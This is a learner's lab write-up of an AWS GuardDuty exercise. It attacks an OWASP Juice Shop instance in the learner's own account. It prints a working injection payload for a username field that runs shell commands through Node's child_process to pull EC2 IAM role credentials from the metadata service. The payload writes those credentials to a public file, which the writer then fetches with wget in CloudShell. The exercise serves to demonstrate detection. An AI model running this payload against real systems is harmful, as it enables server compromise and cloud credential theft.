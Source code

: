 This flaw lets attackers access secret data, mess with services, or even take over the whole server. The app fails to check or sanitize user input before using it in system commands—so it basically hands you the keys to the server.

Sanitization (like a bouncer at a club) blocks dodgy commands, but our web app forgot to hire one. That’s why my malicious code waltzed right in and did whatever it wanted!

To run command injection, I strutted over to the admin account page and dropped this spicy script into the username field:

#{global.process.mainModule.require('child_process').exec('CREDURL=http://169.254.169.254/latest/meta-data/iam/security-credentials/;TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"` && CRED=$(curl -H "X-aws-ec2-metadata-token: $TOKEN" -s $CREDURL | echo $CREDURL$(cat) | xargs -n1 curl -H "X-aws-ec2-metadata-token: $TOKEN") && echo $CRED | json_pp >frontend/dist/frontend/assets/public/credentials.json')}

The script will sweet-talk the server into running a series of commands: grabbing the AWS IAM credentials from the EC2 metadata service, and then helpfully saving them in a public file for all to admire. Basically, I turned a username box into a backstage pass! This shows why input validation is crucial—without it, attackers can turn your app into their personal playground.

![Image](http://learn.nextwork.org/relaxed_teal_timid_avocado/uploads/aws-security-guardduty_t3u4v5w6)

---

## Attack Verification

To verify the attack's success, I strutted over to [JuiceShopURL]/assets/public/credentials.json and voilà—the page served up the juicy credentials file my injected script created! The credentials page showed me the AWS access keys, secret keys, and session token used by the web app to access cloud resources in my account. 

Inside the JSON, you’ll find AccessKeyId and SecretAccessKey (the VIP passes to AWS), Token (your session’s backstage wristband), Expiration (when the party ends), and Code/Type (status and credential type). Seeing these details meant my attack worked perfectly: I turned a simple web form into a cloud key vending machine. Always sanitize your inputs, or your secrets might end up on the guest list!

![Image](http://learn.nextwork.org/relaxed_teal_timid_avocado/uploads/aws-security-guardduty_x7y8z9a0)

---

## Using CloudShell for Advanced Attacks

The attack continues in CloudShell, because CloudShell gives me a fresh, temporary AWS environment with its own account ID—like getting a rental car for hacking, not my personal ride! 🚗 AWS does this for security, so every command I run is logged and tracked separately. By using CloudShell and the stolen credentials, I can access resources in the victim’s AWS account while AWS GuardDuty (the cloud’s security guard 🕵️‍♂️) watches for suspicious activity. This setup means any commands I run with those stolen keys can trigger alerts, showing how attacks from CloudShell can be detected and traced. CloudShell is perfect for testing what an attacker could do—safely, and with all eyes on me!

In CloudShell, I used wget to 📥 download the credentials.json file from our Juice Shop web app into my CloudShell environment—now I have the stolen credentials right at my fingertips! Next, I ran a command using cat and jq to show off what's inside: cat displays the file’s contents, while jq prettifies and organizes the JSON data so it’s easy to read (no squinting required).
